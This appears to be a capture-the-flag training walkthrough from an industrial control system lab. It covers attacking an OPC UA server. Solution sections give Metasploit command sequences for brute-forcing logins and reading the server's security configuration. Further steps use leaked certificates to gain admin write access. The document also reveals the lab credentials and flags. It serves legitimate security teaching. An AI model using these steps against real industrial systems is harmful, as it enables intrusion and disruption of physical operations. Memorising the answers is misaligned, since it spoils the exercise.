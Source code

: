 # OPC UA

An OPC UA client is a software application that connects to an OPC UA server to read, write, and monitor data within industrial systems.
This client can interact with various devices and systems, enabling seamless communication and data exchange across different platforms and manufacturers.
OPC UA clients are integral to industrial automation, as they facilitate real-time data access and control, which is essential for efficient and safe operations.

In this example, we aim to perform an attack on an OPC UA system.
To proceed, install the opcua-client, which we will use for interaction following a successful attack.

```sh
pip3 install opcua-client
```

Remove configuration file for the OpcUaClient if there is any:
```sh
rm -rf .config/FreeOpcUa/OpcUaClient.conf
```

Simple communication between OPC UA server and client:
```
+------------------+       OPC UA Protocol     +------------------+
|                  | <------------------------>|                  |
|  OPC UA Client   |                           |  OPC UA Server   |
|   opcua-client   |                           |      CybICS      |
+------------------+                           +------------------+
```

## Brute forcing user password
Brute forcing an OPC UA system involves repeatedly attempting to guess the username and password until the correct combination is found.
This type of attack can give an unauthorized user access to sensitive industrial control systems, allowing them to manipulate device settings, disrupt operations, or steal critical data.
Due to the automated nature of brute force attacks, they can quickly compromise systems that lack strong password policies or account lockout mechanisms.

One way to log in to the OPC UA Server from the OPC UA Client is to use a username and a password. The objective of this part of the training is to reveal a valid username with the corresponding password. To do this, try to crack a user's authentication password using a brute force attack. Use the Metasploit module for OPC UA:   
https://github.com/COMSYS/msf-opcua/tree/master

To set up of the scanner module, follow the *Instructions* in the README.md of the link. It's necessary to install the opcua-module via pip: `pip3 install opcua`. Metasploit is installed in Kali by default. Add the `modules` directory found in this repository to the `modules` directory of Metasploit. This is located under the path `~/.msf4/modules`.   

Then use *opcua_hello* to verify that an OPC UA Server is running on an open port by following step 2 of the *Typical Workflow* described.   
If this is successful, follow step 4 and use *opcua_login* to brute force credentials for OPC UA Server instances. As input credential the input file, *credentials.txt* located in this folder should be used.   
(hints: IP 10.0.0.1, PORT 4840, FILE CybICS/training/opcua/credentials.txt)

In the case of a successful brute force attack, you should see the username and password labeled *success* as output. This procedure can also be traced in Wireshark and the usernames and passwords used in the attack can be read out in plaintext. 


### Get the user flag
The flag has the format "CybICS(flag)".

**Hint**: The flag is readable on the OPC UA system of the user, which you need to brute force
<details>
  <summary>Solution</summary>

  Check if connection to OPC UA works with:
  ```
  msf6 > use auxiliary/scanner/opcua/opcua_hello
  msf6 auxiliary(scanner/opcua/opcua_hello) > set rhosts 10.0.0.1
  msf6 auxiliary(scanner/opcua/opcua_hello) > set rport 4840
  msf6 auxiliary(scanner/opcua/opcua_hello) > run
  ```

  Expected outcome:
  ```
  [*] Running for 10.0.0.1...
  [+] 10.0.0.1:4840 - Success
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```

  Use `opcua_login` to bruteforce login:
  ```
  msf6 > use auxiliary/scanner/opcua/opcua_login
  msf6 auxiliary(scanner/opcua/opcua_login) > set rhosts 10.0.0.1
  msf6 auxiliary(scanner/opcua/opcua_login) > set port 4840
  msf6 auxiliary(scanner/opcua/opcua_login) > set userpass file:<CybICS_root_Folder>/CybICS/training/opcua/credentials.txt
  ```

  Expected outcome:
  ```
  [*] Running for 10.0.0.1...
  [*] 10.0.0.1:4840 - Valid OPC UA response, starting analysis
  ...
  [+] 10.0.0.1:4840 - [101/132] - user1:test - Success
  ...
  ```

  Username: user1
  Passwort: test
  
  :anger: Flag: CybICS(OPC-UA)
  ![Flag opcua](doc/opcua_user.png)
</details>

## Getting an overview of the security configuration
Use the metasploit module `auxiliary/scanner/opcua/opcua_server_config` for this investigation

<details>
  <summary>Solution</summary>
  
  ```
  msf6 > use auxiliary/scanner/opcua/opcua_server_config
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set rhosts 10.0.0.1
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set rport 4840
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set username user1
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set password test
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set authentication Username
  msf6 auxiliary(scanner/opcua/opcua_server_config) > run
  ```
</details>

## Getting admin access
Previously, you had read-only access to the variables, which meant you could view but not modify them.
The next step is to obtain admin access to the OPC UA device.
This will allow you to change the variables and acquire the admin flag.
From previous investigation, you found certificates used for the OPC-UA communication under `CybICS/software/opcua/certificates/trusted`.
Use the leaked certificates to authenticated to the OPC-UA system.

### Certificates in OPC UA

Certificates in OPC UA (Open Platform Communications Unified Architecture) are crucial for ensuring secure and trusted communication between clients and servers. OPC UA is designed with robust security features to protect data integrity, confidentiality, and authentication, and certificates play a key role in implementing these features.

#### Purpose of Certificates

- **Authentication**: Certificates authenticate the identities of OPC UA clients and servers. They verify that each party in a communication session is who they claim to be, helping to prevent unauthorized access and man-in-the-middle attacks.

- **Encryption**: Certificates enable encryption of data transmitted over OPC UA networks. This ensures that sensitive information is protected from eavesdropping and tampering by encrypting the communication channels between clients and servers.

- **Integrity**: Certificates help ensure data integrity by allowing both parties to validate that the data has not been altered during transmission. This is crucial for maintaining the reliability and accuracy of the information exchanged.

#### Types of Certificates

- **Application Instance Certificates**: These certificates are issued to individual OPC UA applications or devices. They help in uniquely identifying and authenticating each application instance within the OPC UA network.

- **Trust List Certificates**: OPC UA systems use trust lists to manage and verify certificates. Trust lists contain the certificates of trusted entities, such as clients and servers, and are used to establish trust relationships between them.

- **Self-Signed Certificates**: In some cases, OPC UA systems may use self-signed certificates. These are certificates signed by the entity itself rather than by a third-party certificate authority (CA). While self-signed certificates are useful for internal testing or development, they are typically less trusted than certificates issued by recognized CAs.

- **CA-Signed Certificates**: For more secure deployments, OPC UA systems often use certificates signed by a Certificate Authority (CA). CAs are trusted organizations that issue certificates after verifying the identities of the entities requesting them. CA-signed certificates are generally considered more reliable and secure.

#### Certificate Management

- **Issuance**: Certificates are issued either by a trusted CA or through internal mechanisms within an organization. The issuance process involves generating a certificate signing request (CSR), verifying the requester's identity, and issuing the certificate.

- **Revocation**: If a certificate is compromised or no longer needed, it should be revoked. Certificate revocation lists (CRLs) or online certificate status protocols (OCSP) are used to manage and communicate revoked certificates.

- **Renewal**: Certificates have expiration dates and need to be renewed periodically. Renewal ensures continued security and compliance with best practices.

- **Storage**: Certificates must be securely stored to prevent unauthorized access or tampering. OPC UA systems typically use secure storage mechanisms to protect certificates and their associated private keys.

#### Implementation in OPC UA

- **Security Policies**: OPC UA supports various security policies that define how certificates are used for encryption, signing, and authentication. These policies help tailor the security approach to meet specific requirements and use cases.

- **Key Pair Generation**: OPC UA applications generate and use asymmetric key pairs (public and private keys) in conjunction with certificates. The public key is included in the certificate, while the private key remains confidential.

- **Configuration**: OPC UA clients and servers must be properly configured to use certificates. This includes setting up trust lists, managing certificate expirations, and ensuring that all parties are using compatible security settings.

#### Summary

Certificates in OPC UA are essential for establishing secure, authenticated, and encrypted communication channels in industrial environments. They play a vital role in protecting data integrity, confidentiality, and authenticity. Effective management of certificates, including their issuance, storage, revocation, and renewal, is crucial for maintaining a secure OPC UA network and ensuring reliable operation of industrial control systems.

<details>
  <summary>Solution</summary>
  Use opcua-client and configure on `Connect option` the usage of the certificate.
  ```
  opcua-client
  ```

  Now you can change the variable `Set > 0 to obtain flag!` to a value bigger than zero and access the variable for the admin flag `adminFLAG`
  
  :anger: Flag: CybICS(OPC-UA-$ADMIN)
  ![Flag opcua](doc/opcua_admin.png)
</details>